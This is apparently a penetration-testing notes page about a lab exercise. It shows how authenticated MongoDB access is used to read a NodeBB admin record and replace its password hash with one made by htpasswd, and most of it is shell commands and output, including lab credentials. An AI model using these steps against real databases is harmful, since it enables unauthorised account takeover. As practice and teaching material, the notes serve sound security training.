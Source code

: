 # Authenticated MongoDB

With valid credentials we can overwrite databases and chage passwords and configuration for other services that are around. This could be generating a new htapssword for webdav or nodebb.&#x20;

```
┌──(kali㉿kali)-[~]
└─$ mongo mongodb://admin:monkey13@192.168.120.186:27017/
MongoDB shell version v4.2.13
connecting to: mongodb://192.168.120.186:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("42164b37-99dd-429d-91fc-65cc46e0240a") }
MongoDB server version: 4.0.22
...
---

> show databases
admin   0.000GB
config  0.000GB
local   0.000GB
nodebb  0.000GB
>
```

```
> use nodebb
switched to db nodebb
> db.objects.find({ _key: /^user:1$/ })
{ "_id" : ObjectId("6017626e253f4a61ea72a355"), "_key" : "user:1", "email" : "admin@tico.offsec", "joindate" : 1612145262550, "lastonline" : 1612146689780, "status" : "online", "uid" : 1, "username" : "admin", "userslug" : "admin", "password" : "$2a$12$T3BIimnZgfw60c12wFA99.MbugSdE0hfl/SSCYFZJ7jTVHe5PGGB6", "groupTitle" : "[\"administrators\"]", "topiccount" : 1, "postcount" : 1, "lastposttime" : 1612145263314 }
```

We see a single record in the collection, which belongs to the default admin user. We need to generate a new salted password hash to replace the `password` field in the record. We can do that with the `htpasswd` utility by generating a new _bcrypt_ hash of the password `password`.

```
┌──(kali㉿kali)-[~]
└─$ htpasswd -bnBC 12 "" password            
:$2y$12$6.8Es6W3Cyc0en31K4inBef3mCoJaDo2lJ6biXdUmKXfrsSqlfgsW
```

Before using it, however, we first need to strip off the leading `:`.

```
┌──(kali㉿kali)-[~]
└─$ htpasswd -bnBC 12 "" password | tr -d ':'
$2y$12$LMqnkbq1FpTnOzAWTgizbugAOpGJaKl0h7PVHvDraW9e0wK2SR7Zu
```

Next, we'll overwrite the target password field with our newly generated hash.

```
> db.objects.update({ _key: /^user:1$/ }, { $set: { password: "$2y$12$LMqnkbq1FpTnOzAWTgizbugAOpGJaKl0h7PVHvDraW9e0wK2SR7Zu" }})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
> exit
bye

┌──(kali㉿kali)-[~]
└─$
```
